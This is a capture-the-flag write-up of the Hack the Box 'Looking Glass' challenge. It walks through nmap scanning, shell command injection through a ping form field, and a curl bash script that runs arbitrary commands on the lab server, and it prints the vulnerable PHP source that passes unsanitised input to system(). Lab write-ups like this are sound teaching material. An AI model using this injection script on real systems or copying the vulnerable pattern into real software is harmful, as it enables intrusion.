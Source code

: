# Looking Glass write-up by Herman Detwiler

## Overview

Looking glass is an easy box on Hack the Box, and can be found on the OWASP top 10 track. We are given the following description: 

*We've built the most secure networking tool in the market, come and check it out!*

The first step is going to be to gather as much information about the target as possible.

## Recon

Given that we are given a docker address to looking glass: 161.35.47.235:30278 first I will run an nmap scan of the target to attempt and enumerate service and underlying OS information about the target. To do this I use the following nmap command to enumerate serverice version, run basic nse scripts, and to attempt OS detection:

```bash
sudo nmap -sC -sV -O 161.35.47.235 -p 30278
```

However initially the host seems down because the host is blocking ping attempts. To counter this we can add the -Pn flag to our nmap command.

```bash
└─$ sudo nmap -sC -sV 161.35.47.235 -p 30278 -Pn -O
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-04 10:57 EDT
Nmap scan report for 161.35.47.235
Host is up (0.086s latency).

PORT      STATE SERVICE VERSION
30278/tcp open  http    nginx
|_http-title: rce
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (94%), Linux 3.2 (94%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), HP P2000 G3 NAS device (92%), ASUS RT-N56U WAP (Linux 3.4) (91%), Linux 3.16 (91%), Linux 2.6.32 (91%), Linux 2.6.39 - 3.2 (91%), Ubiquiti AirMax NanoStation WAP (Linux 2.6.32) (91%), Linux 3.1 - 3.2 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 10 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.28 seconds
```
Based on these findings, I can be fairly certain that this is a linux box, running an nginx web server. My next step is to further enumerate this service using various commands to try and see if I can get an idea of the functionality of this web server.

## Enumeration

Using my web browser to manually view the webapp I can see that it is desiegned to perform two different network tests, traceroute and ping. It also displays my actual ip address, which has been redacted on the screenshots.

![image](https://user-images.githubusercontent.com/83407557/161574988-faf3c1c6-6625-47cf-ad47-70933d97f7e2.png)

After manually messing around with functionality I can determine that the webapp is not connected to the internet, as any attempt to ping myself or any other internet facing ip address is met with 100% packet loss:

Just as example trying to ping example.com:

1. Getting ipv4 address of example.com from kali

![image](https://user-images.githubusercontent.com/83407557/161576640-71832a69-3d2b-433a-8a6f-9b9861a832c4.png)

2. Pinging that ipv4 from kali (to show what a box that is connected looks like)

![image](https://user-images.githubusercontent.com/83407557/161576870-f0d9be61-1f61-47ca-9559-4f86f2d11160.png)

3. Doing the same from looking glass to verify 100% packet loss

![image](https://user-images.githubusercontent.com/83407557/161577155-cc56b1ba-a248-4590-b651-ded46cbdbd26.png)

## Building an exploit

Seeing as that the server seems to be running system commands, I need to see if I can break out of the intended ping or traceroute commands and run my own.

### POC

Again using kali to show what I am attempting to do, I need to write a one liner that will both ping and then also run another command. I will us the uname command in linux to try and identify the underlying OS. When run by itself it looks like this:


![image](https://user-images.githubusercontent.com/83407557/161585460-b734416a-3681-4622-9c93-08943276940b.png)

I can also tell that the server is not just running ping by itself, as it always returns four packets. So even though it just says "ping" the actual command is going to be closer to "ping -c4 -w3" so that is what I am going to use locally to get the output as close to the server's as I can. To make bash run another command after the first I can use a semicolon ";". With this in-mind the entire command to ping 8.8.8.8 four times and then run the uname command on kali:

```bash
ping -c4 -w3 8.8.8.8;uname
```
![image](https://user-images.githubusercontent.com/83407557/161586497-8b21c91b-7ee8-4b8a-99b1-678d2e982dcf.png)

As you can see after running the ping command, at the very end of the output it also says "Linux". Now I can see if I can get the same output on looking glass, by adding a semicolon and the uname command to the ip address just as above:

```
8.8.8.8;uname
```

![image](https://user-images.githubusercontent.com/83407557/161587002-cc215b51-2688-4759-91e6-178e85fb4a2e.png)

Even though the ping command returned 100% packet loss, it can be seen the that uname command returned as well. However before I build this into a working exploit, I want to make it a little faster. Each time looking glass trys to ping it takes serveral seconds, which will add up if I am trying to run commands. To counter this, I will try my next manual command against localhost(127.0.0.1) to see if it speeds up the ping command. I want to get all of the OS info using the uname -a command. Using the same method as before:

```
127.0.0.1;uname -a
```

![image](https://user-images.githubusercontent.com/83407557/161587809-785d43cd-71f2-429c-a370-4bd454fe6a1b.png)

and Bingo! was able to get it to work marginally faster and also now know the kernel info. With this I can build my actual exploit.

### Making a bash script

Taking a look at the post request that was sent to the server to perform the ping command, I can copy this as a curl request to begin building a bash script for myself. I will call this initial script tinker.sh.

```bash
#!/bin/bash

curl 'http://178.128.163.152:32305/' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://178.128.163.152:32305/' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.163.152:32305' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' --data-raw 'test=ping&ip_address=127.0.0.1%3Buname&submit=Test'

```
Running tinker.sh I can see that I get the same output as I did with my POC:

![image](https://user-images.githubusercontent.com/83407557/161610497-96c04432-637a-447a-bf73-51f6edeb1593.png)

Now I need to modify tinker.sh to make my acutal exploit script, where I can give commands as arguments and get the output in the response. To do this I will change the line

```
--data-raw 'test=ping&ip_address=127.0.0.1%3Buname&submit=Test'
```

to 

```
--data-raw "test=ping&ip_address=127.0.0.1%3Bu$1&submit=Test"
```
to make it so instead of the uname command it will run the first argument I pass to my bash script.

```bash
#!/bin/bash

curl 'http://178.128.163.152:32305/' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Referer: http://178.128.163.152:32305/' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: http://178.128.163.152:32305' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Cache-Control: max-age=0' --data-raw "test=ping&ip_address=127.0.0.1%3B$1&submit=Test"
```

Now I can run any number of commands, right from my command line:

whoami command

![image](https://user-images.githubusercontent.com/83407557/161611409-c8643e1e-64e3-46d3-879e-6f4ec51c84fb.png)

hostname command:

![image](https://user-images.githubusercontent.com/83407557/161611487-9d5c76d1-8d84-4f36-b8c4-f343f36e64ab.png)
![image](https://user-images.githubusercontent.com/83407557/161611582-3fcec2f5-3a51-4a46-b98a-c0b34e7f06d3.png)

## Getting the flag.

Using the script developed in the last section the following additional information was discovered: we are in the www directory, and the only other file in the directory is index.php, which we are now able to flush out and view the source code.

```php
<?php
function getUserIp()
{
    return $_SERVER['REMOTE_ADDR'];
}

function runTest($test, $ip_address)
{
    if ($test === 'ping')
    {
        system("ping -c4 ${ip_address}");
    }
    if ($test === 'traceroute')
    {
        system("traceroute ${ip_address}");
    }
}

?>
```

Normally my next step would be to enumerate the software on the target to see if there is anything I could use to get a reverse shell. However, since I can now see the source code, I am pretty sure that a rev shell will not work as this box doesn't seem to be able to connect back to me. However since I already have a webshell script, I should have all I need to find the flag. First I want to get an idea of the filesystem.

![image](https://user-images.githubusercontent.com/83407557/161617360-4308ea8b-f8b6-4bb1-90ee-e73b9bcf03e7.png)

the following directory sticks out
![image](https://user-images.githubusercontent.com/83407557/161617095-3bc1a01f-fc51-4342-83f7-36603c1f678a.png)

Using cat to read the contents
![image](https://user-images.githubusercontent.com/83407557/161617475-dd88f9f5-75d5-4cbd-ac90-ea1918d14f2d.png)
and I get the flag
![image](https://user-images.githubusercontent.com/83407557/161617573-af5706d8-2172-48b5-b60e-2d5c0f9b5c27.png)

